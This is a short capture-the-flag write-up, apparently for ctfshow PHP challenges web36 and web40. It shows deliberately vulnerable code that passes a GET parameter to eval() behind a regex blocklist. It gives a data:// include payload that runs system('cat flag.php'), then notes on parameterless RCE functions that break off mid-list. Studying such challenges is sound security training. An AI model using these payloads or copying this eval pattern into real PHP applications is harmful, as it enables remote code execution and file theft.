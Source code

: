 ------

#### web36

```php
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}

```

**payload**

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

------

#### web40

```php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
}

```

[无参数的rce](https://blog.csdn.net/2301_76690905/article/details/133808536)

```
无参数的rce：

scandir() :
将返回当前目录中的所有文件和目录的列表。返回的结果是一个数组，其中包含当前目录下的所有文件和目录名称

getcwd() :
取得当前工作目录

hightlight_file()、show_source()、readfile()：
读取文件内容

dirname():
函数返回路径中的目录部分

eval()、assert()：
命令执行

print_r(scandir(‘.’)); 
查看当前目录下的所有文件名

localeconv() 
函数返回一包含本地数字及货币格式信息的数组。

current() 
函数返回数组中的当前元素（单元）,默认取第一个值，pos是current的别名

chdir() ：
```